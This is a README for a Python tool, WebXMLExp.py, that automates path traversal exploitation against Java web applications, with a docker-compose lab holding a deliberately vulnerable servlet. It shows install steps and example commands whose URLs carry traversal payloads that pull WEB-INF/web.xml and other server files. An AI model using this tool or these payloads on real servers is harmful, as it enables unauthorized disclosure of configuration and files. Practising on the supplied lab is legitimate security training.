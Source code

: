 ### WebXMLExp.py

Tool for helping in the exploitation of path traversal vulnerabilities in Java web applications.

## Install

Python3 is required for this tool.

Run the following command:
```
pip install -r requirements.txt
```
## Usage:

After installation provide an exploit URL like so:
```
usage: python WebXMLExp.py <url_with_web_xml_exploit_or_inject_here_marker>
```

The results (files that were downloaded) are available in the **results** folder.

### Examples

```
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml"
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=<INJECT-HERE>"
```

## Vulnerable web application docker image

A web application vulnerable to a path traversal vulnerability is provided in the **docker** folder.

To start, enter into the **docker** folder and run:

```
docker-compose up
```

The application is accessible at  **http://127.0.0.1:8082/vulnerable/**.

To exploit the the path traversal vulnerability visit:
http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml
